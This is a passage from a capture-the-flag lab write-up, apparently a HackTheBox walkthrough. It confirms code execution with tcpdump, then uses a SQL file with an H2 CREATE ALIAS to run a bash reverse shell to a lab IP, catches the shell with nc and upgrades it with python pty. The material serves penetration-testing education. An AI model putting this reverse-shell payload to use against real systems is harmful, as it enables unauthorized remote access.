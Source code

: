 
A second later, at `tcpdump`:

    
    
    oxdf@parrot$ sudo tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
    19:24:58.130520 IP 10.10.10.214 > 10.10.14.8: ICMP echo request, id 1, seq 1, length 64
    19:24:58.130534 IP 10.10.14.8 > 10.10.10.214: ICMP echo reply, id 1, seq 1, length
    

It worked. I’ve got RCE.

### Shell

I’ll create a copy of the script, `rev.sql`, and add a reverse shell:

    
    
    CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
       String[] command = {"bash", "-c", cmd};
       java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
       return s.hasNext() ? s.next() : "";  }
    $$;
    CALL SHELLEXEC('bash -c "bash -i >& /dev/tcp/10.10.14.8/443 0>&1"')
    

On submitting, the script is loaded from the webserver, and then the reverse
shell comes to `nc`:

    
    
    oxdf@parrot$ sudo nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.8] from (UNKNOWN) [10.10.10.214] 58288
    bash: cannot set terminal process group (863): Inappropriate ioctl for device
    bash: no job control in this shell
    pericles@time:/var/www/html$ id
    uid=1000(pericles) gid=1000(pericles) groups=1000(pericles)
    

I’ll upgrade my shell with the normal trick:

    
    
    pericles@time:/var/www/html$ python3 -c 'import pty;pty.spawn("bash")'
    python3 -c 'import pty;pty.spawn("bash")'
    pericles@time:/var/www/html$ ^Z
    [1]+  Stopped                 sudo nc -lnvp 443
    oxdf@parrot$ stty raw -echo; fg
    sudo nc -lnvp 443
                     reset
    reset: unknown terminal type unknown
    Terminal type? screen
    pericles@time:/var/www/html$ 
    

And grab `user.txt`:
